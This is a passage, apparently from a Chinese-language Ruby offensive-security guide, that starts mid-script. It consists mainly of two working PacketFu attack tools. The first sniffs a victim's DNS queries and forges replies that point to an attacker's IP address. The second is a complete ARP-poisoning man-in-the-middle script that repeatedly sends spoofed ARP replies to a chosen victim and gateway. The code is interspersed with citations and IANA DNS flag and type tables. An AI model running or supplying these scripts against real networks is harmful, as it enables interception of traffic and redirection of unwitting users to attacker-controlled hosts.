  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
  response.payload  += "\x00\x01"                 # Question: 1
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

  end
end 
```

[`github.com/SilverFoxx/Spoofa/blob/master/spoofa`](https://github.com/SilverFoxx/Spoofa/blob/master/spoofa)

资源^(1) ^(2) - 代码已修改和修复

* * *

> ¹. [使用 PacketFu 进行 DNS 欺骗](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/) ↩
> 
> ². [使用 PacketFu 操纵网络](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf) ↩
> 
> ³. [DNS 头部标志](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12) ↩

| 位 | 标志 | 描述 | 参考 |
| --- | --- | --- | --- |
| 位 5 | AA | 授权回答 | [RFC1035] |
| 位 6 | TC | 截断响应 | [RFC1035] |
| 位 7 | RD | 期望递归 | [RFC1035] |
| 位 8 | RA | 允许递归 | [RFC1035] |
| 位 9 |  | 保留 |  |
| 位 10 | AD | 真实数据 | [RFC4035] |
| 位 11 | CD | 禁用检查 | [RFC4035] |

> ⁴. [DNS 查找类型](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4) ↩

| 类型 | 值 | 描述 |
| --- | --- | --- |
| A | 1 | IP 地址 |
| NS | 2 | 名称服务器 |
| CNAME | 5 | 域名的别名 |
| PTR | 12 | 使用 IP 地址进行反向 DNS 查找 |
| HINFO | 13 | 主机信息 |
| MX | 15 | MX 记录 |
| AXFR | 252 | 区域传输请求 |
| ANY | 255 | 请求所有记录 |

# MiTM 攻击

# 中间人攻击（MiTM）

通过 ARP 欺骗和 PacketFU 以及套接字使用本书中的源代码作为基础的更复杂的 MiTM 攻击示例。

```
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac     # your MAC Address
     x.eth_daddr = vmac     # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip   # Router IP Address
     x.arp_daddr_ip=  vip   # Victim IP Address
     x.arp_opcode = 2       # ARP Reply Code
   while true do 
     x.to_w(int_name)       # Put Packet to wire  interface
      sleep(29)             # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this
unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

# select interface to use and start setup
interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end 
```

来源：[Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") 和 Rubyfu ARP 欺骗主题。
